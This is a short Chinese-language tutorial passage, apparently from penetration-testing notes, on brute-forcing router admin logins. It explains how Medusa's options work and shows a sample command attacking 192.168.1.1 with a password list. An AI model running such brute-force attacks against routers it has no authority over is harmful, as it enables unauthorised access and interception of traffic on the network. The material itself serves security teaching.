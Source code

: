 ## 路由器密码破解
- 路由器是一个网络的核心设备。一旦控制路由器，就很容易对连接该路由器的主机实施各种数据嗅探和欺骗攻击。大部分路由器都是使用用户名/密码的身份验证方式。而每
个路由器的管理界面都有初始用户名和密码。由于一些管理员用户的失误，可能会使用初始密码或者弱密码

#### 路由器初始密码
- 大部分路由器都有初始用户名和密码。为了方便用户实施路由器密码破解，下面将列出常见的路由器初始用户名和密码
![pics](../5.密码攻击/pics/9.png)

#### 使用Medusa工具
Medusa 是一款开源的暴力密码破解工具，可以在线破解多种密码，如FTP、HTTP、IMAP和MYSQL 等。其中，路由器的管理界面是基于HTTP协议的，所以用户可以使用Medusa工具实施密码破解。
```c
medusa -h [IP] -U [user file] -P [pass file] -M http -e ns
//以上语法中的选项及含义如下：
//- h：指定目标主机的地址
//- u：指定尝试破解的用户名
//- U：指定使用的用户名文件
//- p：指定尝试破解的密码
//- P：指定使用的密码文件
//- M：指定要破解的模块类型
//- e：尝试空密码

//暴力破解 TP-Linux 路由器的登录用户名和密码
root@daxueba:~# medusa -h 192.168.1.1 -u admin -P passords.txt -M http -e ns
```

